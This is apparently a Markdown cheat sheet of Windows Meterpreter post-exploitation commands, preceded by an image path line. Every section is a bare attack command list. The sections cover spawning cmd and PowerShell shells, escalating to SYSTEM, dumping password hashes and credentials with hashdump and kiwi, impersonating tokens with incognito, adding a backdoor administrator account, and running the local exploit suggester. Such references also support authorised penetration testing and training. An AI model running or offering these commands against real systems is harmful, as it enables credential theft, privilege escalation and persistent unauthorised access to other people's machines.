 # windows meterpreter

## shell access (cmd & powershell)

1. for cmd.exe `shell`
2. for powershell
    1. `load powershell`
    2. `powershell_shell`

## windows specific commands

```bash
getuid
getsystem
getprivs

migrate <system-process>

hashdump
```

## incognito | [milkdevil/incognito2](https://github.com/milkdevil/incognito2)

```bash
load incognito
list_tokens [-u | -g]
impersonate_token "<token>"

# for better results
migrate <pid>
add_user <user> <pass>
add_localgroup Administrators <user>
```

## mimikatz

```bash
load kiwi
creds_all
```

## local exploit suggester

```bash
use post/multi/recon/local_exploit_suggester
set SESSION <>; run
```